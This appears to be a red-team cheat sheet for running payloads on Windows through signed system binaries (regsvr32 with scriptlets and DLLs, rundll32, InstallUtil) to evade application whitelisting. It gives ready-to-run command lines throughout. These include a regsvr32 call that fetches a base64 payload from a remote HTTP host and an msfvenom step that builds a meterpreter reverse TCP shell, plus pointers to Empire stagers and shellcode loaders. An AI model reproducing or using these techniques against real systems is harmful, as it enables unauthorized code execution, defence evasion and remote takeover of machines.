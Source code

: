 #### regsvr32
- https://gist.githubusercontent.com/bik3te -> PoC.sct (replace calc by payload)
```
C:\Windows\System32\regsvr32.exe /u /s /i:"C:\<PATH>\PoC.sct" scrobj.dll
```

#### DLL (cmd.dll -> ReactOS)
- https://blog.didierstevens.com/2010/02/04/cmd-dll/
- http://www.didierstevens.com/files/software/cmd-dll_v0_0_1.zip
```
C:\Windows\System32\regsvr32.exe "C:\<path>\cmd.dll"
C:\Windows\System32\regsvr32.exe /u "C:\<path>\cmd.dll"
```

#### DLL executing custom command
1. Modify https://github.com/bik3te/Scripts/blob/master/windows_dll.c
2. Execute
```
C:\Windows\System32\regsvr32.exe "C:\<path>\output.dll"
or
C:\Windows\System32\rundll32.exe C:\<PATH>\output.dll,WhatEver
```

#### DLL with custom shellcode
- https://bitbucket.org/jsthyer/wevade and Empire
- Compile rs32.dll and rs64.dll
- Generate a PowerShell empire script using the "launcher" stager and cut/paste only the base64 encoded portion and save it in a file
```
C:\Windows\System32\regsvr32.exe /s /i:powershell,payload.b64 rs64.dll
or
C:\Windows\System32\regsvr32.exe /s /i:powershell,http://192.168.10.12/payload.b64 rs64.dll
```

#### InstallUtil
- Manually:
1. Create shellcode
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f csharp
```

2. Modify https://github.com/bik3te/Scripts/blob/master/Install-Util.cs (add shellcode in Exec()) and compile
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x86 /out:"C:\<path>\pwn.exe" "C:\<path>\Install-Util.cs"
```

3. Execute
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\<path>\pwn.exe"
```

- p0wnedshell:
https://github.com/Cn33liz/p0wnedShell
